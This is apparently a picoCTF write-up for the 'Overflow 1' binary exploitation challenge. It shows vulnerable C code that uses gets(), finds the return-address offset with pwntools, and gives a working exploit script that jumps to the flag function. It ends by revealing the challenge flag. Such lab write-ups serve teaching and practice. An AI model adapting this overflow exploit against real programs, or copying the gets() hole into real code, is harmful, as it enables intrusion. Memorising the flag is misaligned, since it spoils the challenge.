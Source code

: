 # Overflow 1 (Binary Exploitation)

![title](images/title.png)

We are given the hint to overflow the buffer and control EIP to return the program to the flag function. Heres the source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

The vulnerable function is **gets** in the vuln() function. Lets first start by acquiring the address of the flag function then we can work on controlling EIP. BUFFSIZE set at 64 so lets tinker around until we can control eip.

Using pwntools we can easily find the address of flag by searching the symbols:

```python
e = ELF('./vuln')
flag = e.symbols['flag']
```

This will make it very easy to craft our payload

Now lets get our offset required to control EIP

```bash
pwn cyclic 300 | strace ./vuln
```

```
write(1, "Woah, were jumping to 0x61616174"..., 35Woah, were jumping to 0x61616174 !
) = 35
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616174} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
Okay so lets find the offset of 0x61616174 using pwntools again

```bash
pwn cyclic -l 0x61616174
```
The result is: **76**

Lets now update our our script and test.

```python
#!/usr/bin/env python

from pwn import *

#Set the process and ELF
p = process('./vuln')
e = ELF('./vuln')

#Define the return address for flag
flag = e.symbols['flag']

#Offset from pwn cyclic
offset = 76

#Craft our payload
payload = ''
payload+= 'A'*offset
payload+= p32(flag)

#Send payload and set interactive mode in order to receive the flag output
p.sendline(payload)
p.interactive()
```
Creating a local flag.txt and testing on locally works perfectly. Lets ssh into the shell, copy our script to a temp folder and run.

<details>
	<summary>Flag</summary>

picoCTF{n0w_w3r3_ChaNg1ng_r3tURn56b6d6d97}
</details>

